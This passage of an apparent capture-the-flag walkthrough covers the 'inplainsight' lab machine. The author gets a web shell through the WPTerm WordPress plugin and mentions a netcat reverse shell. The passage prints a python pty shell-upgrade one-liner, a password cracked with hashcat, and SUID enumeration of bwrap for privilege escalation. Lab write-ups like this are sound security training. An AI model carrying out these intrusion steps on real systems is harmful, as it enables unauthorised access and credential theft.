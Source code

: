 <p>Login as admin and install the <a href="https://wordpress.org/plugins/wpterm/">WPTerm plugin</a>. Woop shell (ish), quick nc to open up an actual responsive shell.</p>

<p><img src="/assets/images/2019/12/nc-noe.png" alt="Netcat no -e" /></p>

<p>Upgrade the nc shell to in an interactive one using python trick.</p>
{% highlight sh %}
% python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

<p>Eventually I looked at the mysql databases for the Wordpress instances and found the password hashes for the users. The admin one we already know, but Mike's hash was a bit tricker. Cracked it using hashcat eventually, to give the password _skuxdelux_.</p>

<p>Thanks mike for using the same password for your login! So now I can su to mike.</p>

<p>Doh! Now I find the obvious clue....</p>

{% highlight sh %}
mike@inplainsight:/$ ls -la /var/mail/mike
ls -la /var/mail/mike
-rw-r--r-- 1 mike mail 580 Nov 22 06:51 /var/mail/mike
mike@inplainsight:/$ cat /var/mail/mike
cat /var/mail/mike
From joe@inplainsight  Fri Nov 22 06:51:55 2019
Return-Path: <joe@inplainsight>
X-Original-To: mike@inplainsight
Delivered-To: mike@inplainsight
Received: by inplainsight (Postfix, from userid 1001)
        id F40BF5AB4; Fri, 22 Nov 2019 06:51:54 -0500 (EST)
Subject: remember
To: <mike@inplainsight>
X-Mailer: mail (GNU Mailutils 3.6)
Message-Id: <20191122115154.F40BF5AB4@inplainsight>
Date: Fri, 22 Nov 2019 06:51:54 -0500 (EST)
From: hyphens rule <joe@inplainsight>

mike. remember before removing wordpress to update your password. i know you use the same password for both. - joe
{% endhighlight %}

<p>Looking at the apps with stickybits I can see that bwrap has, but can't be run by mike, so we might still need to get access to joe (or indeed any other user).</p>
{% highlight sh %}
mike@inplainsight:/var/log/journal$ ls -la /usr/bin/bwrap
-rwsr-sr-x+ 1 root root 16784 Jun 11 20:56 /usr/bin/bwrap

mike@inplainsight:/var/log/journal$ getfacl /usr/bin/bwrap
getfacl /usr/bin/bwrap
getfacl: Removing leading '/' from absolute path names
# file: usr/bin/bwrap
# owner: root
# group: root
# flags: ss-
user::rwx
user:www-data:---